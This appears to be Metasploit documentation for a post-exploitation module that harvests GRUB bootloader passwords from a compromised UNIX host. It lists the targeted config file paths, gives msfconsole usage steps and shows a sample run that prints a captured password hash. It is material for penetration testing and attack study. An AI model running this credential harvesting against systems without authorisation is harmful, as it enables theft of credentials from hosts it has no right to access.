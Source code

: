 # Gather GRUB Passwords

Reads all passwords from GRUB configuration files on UNIX-like machines.

## Vulnerable Application

Any UNIX-like system with a `shell` or `meterpreter` session using GRUB.

## Verification Steps

  1. Get a `shell` or `meterpreter` session on some host.
  2. Do: ```use post/multi/gather/grub_creds```
  3. Do: ```set SESSION [SESSION_ID]```, replacing ```[SESSION_ID]``` with the
     session number you wish to run this one.
  4. Do: ```run```
  5. If the system has readable GRUB configuration files containing a password,
     they will be printed out.

## Options

**FILENAME**

A string that can be used to specify an additional file to check after the
usual places.

**VERBOSE**

A boolean that, when set, will provide more details on what is being checked.
_(Note: this option is defined elsewhere in metasploit, but this module can make
use of it.)_

## Scenarios

There are many places where a user might place the password that GRUB uses, so
inserting a password line into any of these locations will work without any
additional configuration:

```
   /boot/grub/grub.conf
   /boot/grub/grub.cfg
   /boot/grub/menu.lst
   /boot/grub2/grub.cfg
   /boot/grub2/user.cfg
   /etc/grub.conf
   /etc/grub.d/*
   /etc/grub/grub.cfg
   /mnt/sysimage/boot/grub.conf
   /mnt/boot/grub/grub.conf
   /rpool/boot/grub/grub.cfg
```


Using a Metasploitable 2 VM (running Ubuntu 8.04), you can add the line
`password topscret` to `/boot/grub/menu.lst` to easily see this module in
action.

### Meterpreter

Typical run against Ubuntu 18.04 LTS

  ```
msf exploit(handler) > use post/multi/gather/grub_creds
msf post(grub_creds) > set SESSION 1
SESSION => 1
msf post(grub_creds) > run

[*] Searching for GRUB config files..
[*] Reading /boot/grub/grub.cfg
[*] Reading /etc/grub.d/40_custom
[*] Reading /etc/grub.d/00_header
[*] Reading /etc/grub.d/20_linux_xen
[*] Reading /etc/grub.d/10_linux
[*] Reading /etc/grub.d/README
[*] Reading /etc/grub.d/01_users
[+] /etc/grub.d/01_users saved to /home/bcook/.msf4/loot/20191029041304_default_127.0.0.1_grub.config_755243.txt
[*] Reading /etc/grub.d/41_custom
[*] Reading /etc/grub.d/30_os-prober
[*] Reading /etc/grub.d/05_debian_theme
[*] Reading /etc/grub.d/30_uefi-firmware
[+] Found credentials

Grub Credential Table
=====================

 Username             Password
 --------             --------
 putyourusernamehere  grub.pbkdf2.sha512.10000.CB9E1ED1050D0AFBC6EC3B75413FB288AD255B960C6DBA31C00A03AC286847DF8B1DEE167ED54316FD62EEAFE4A617959F90249849FBCB562AC27E68A6D59F90.E6AB5AE4B5E4EF375218A620A798002F5B38EE5F31B549A66AF5533A7931419BAC30E2305A95113F60BE116C9F3FE22126FE7768D095DE6B9BCDC55632400B52
  ```
```

